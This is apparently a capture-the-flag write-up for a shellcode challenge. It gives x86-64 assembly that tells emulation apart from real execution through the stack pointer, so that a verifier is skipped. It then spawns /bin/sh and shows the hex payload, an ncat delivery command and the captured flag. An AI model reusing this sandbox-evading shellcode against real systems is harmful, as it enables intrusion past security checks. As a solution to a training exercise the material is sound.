 ### ID: torukmagto

# Shellcode Payload
## Approach
Since ``rsp = 0x7FFFFF`` initially during emulation, the probability that this holds during actual execution after emulation check should be low. 
We exploit this by creating a simple check at the beginning. The actual challenge is to find a set of instructions
such that it does not contain `\x00` until the very end, since the input is read until `\x00` in [main.rs](./code/main.rs).
Luckily, the actual shellcode payload which creates a new shell process does not contain any `\x00`.
## Assembler
````asm
mov rbx, rsp    ; rbx = 0x7FFFFF
shr rbx, 16
cmp bl, 0x7F
je __bypass_verification

push   0x42     ; shellcode for '/bin/sh exec' from https://shell-storm.org/shellcode/files/shellcode-905.html
pop    rax
inc    ah
cqo
push   rdx
movabs rdi, 0x68732f2f6e69622f
push   rdi
push   rsp
pop    rsi
mov    r8, rdx
mov    r10, rdx
syscall

__bypass_verification:
nop

; bytecode hex: 4889E348C1EB1080FB7F741D6A4258FEC448995248BF2F62696E2F2F736857545E4989D04989D20F0590(00)   
````

## Payload Delivery
```shell
echo -ne "\x48\x89\xE3\x48\xC1\xEB\x10\x80\xFB\x7F\x74\x1D\x6A\x42\x58\xFE\xC4\x48\x99\x52\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5E\x49\x89\xD0\x49\x89\xD2\x0F\x05\x90\x00 > payload.txt
cat payload.txt - | ncat -v --ssl <challenge_ip> <port>
> cat /home/ctf/flag
```

# Flag
`CSCG{w4sn7_s0_s3cur3_4f3r_al1_huh}`
